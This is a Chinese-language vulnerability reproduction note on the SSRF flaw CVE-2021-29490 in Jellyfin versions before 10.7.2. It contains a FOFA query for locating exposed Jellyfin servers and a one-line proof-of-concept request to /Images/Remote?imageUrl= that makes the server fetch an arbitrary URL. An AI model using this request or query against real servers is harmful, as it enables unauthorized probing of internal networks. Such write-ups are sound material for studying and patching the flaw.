 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

<a-checkbox checked>Jellyfin < 10.7.2</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Jellyfin"</a-checkbox></br>

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![img](../../../.vuepress/public/img/1639026469087-918a2c7f-b015-4a28-a885-00f9a7267d75.png)

官方删除了某个方法

```go
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件 

**Jellyfin.Api/Controllers/RemoteImageController.cs**

![img](../../../.vuepress/public/img/1639026630565-84275017-5bbf-4835-8d2f-c7eaf1aff942.png)其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞	

![img](../../../.vuepress/public/img/1639026730098-5b7473f3-32b0-47ee-bb04-6f69c13202a0.png)

构造请求POC

```go
/Images/Remote?imageUrl=http://www.baidu.com
```

![img](../../../.vuepress/public/img/1639026826430-ef5e3b8a-d7cb-4957-a71d-b9af01c57c1b.png)